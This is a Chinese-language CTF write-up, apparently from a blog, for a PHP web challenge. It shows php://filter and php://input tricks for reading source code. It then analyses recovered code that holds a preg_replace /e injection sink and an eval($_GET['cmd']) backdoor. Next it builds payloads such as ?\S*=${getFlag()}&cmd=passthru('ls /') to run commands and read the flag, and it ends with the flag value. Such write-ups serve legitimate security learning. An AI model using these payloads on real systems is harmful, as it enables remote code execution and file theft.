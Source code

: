 提示了需要包含next.php，这里使用php伪协议读取文件，同时利用php://input执行post数据中的php代码

`?text=php://input&file=php://filter/read=convert.base64-encode/resource=next.php`

同时post字符串I have a dream

即可获得base64加密后的数据，解密后得

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}

```

分析一下，complex函数需要参数$re、$str，并且两个参数都可控，这个函数的作用时如果str中匹配到了满足/(' . $re . ')/ei的字符串就执行strtolower("\\1")，并且由于存在e参数，php会执行第二个参数，即eval(strtolower("\1"))。getFlag函数中存在eval函数，通过传递cmd执行命令，但@eval()默认不会被调用，需要通过其它的方式触发。

查询资料得知\\1设计一个叫做**反向引用**的知识点：

```markdown
# 对一个正则表达式模式或部分模式两边添加圆括号,将导致相关匹配存储到一个临时缓冲区中，所捕获的每个子匹配都按照在正则表达式模式中从左到右出现的顺序存储。缓冲区编号从 1 开始，最多可存储 99 个捕获的子表达式。每个缓冲区都可以使用 ‘\n’ 访问，其中 n 为一个标识特定缓冲区的一位或两位十进制数。所以这里的 \1 实际上指定的是第一个子匹配项
```

如果我们构造payload：`?.*={${phpinfo()}}`，php处理的语句就会变成`preg_replace('/(.*)/ei', 'strtolower("\\1")', ${phpinfo()});`单看这条语句，/(.*)/ei会匹配${phpinfo()}的全部内容，并在strtolower中反向引用，变成strtolower(${phpinfo()})，由于正则表达式中存在e参数，phpinfo()将被当做php代码执行。但本题中该payload没有执行，原因是在PHP中，对于传入的非法的$_GET数组参数名，会将其转化为下划线，导致了正则匹配失效。因此需要将.替换成\S。

构造payload：?\S\*=${getFlag()}&cmd=passthru("ls /")，发现存在flag，利用cat /flag读取就能获得flag。

`flag{ebc21d3d-fc88-4db7-b2bc-8d81e0863930}`


---

> 作者: Hinoatari  
> URL: https://hinoatari.github.io/posts/buuctfweb%E5%88%B7%E9%A2%98%E8%AE%B0%E5%BD%95/  


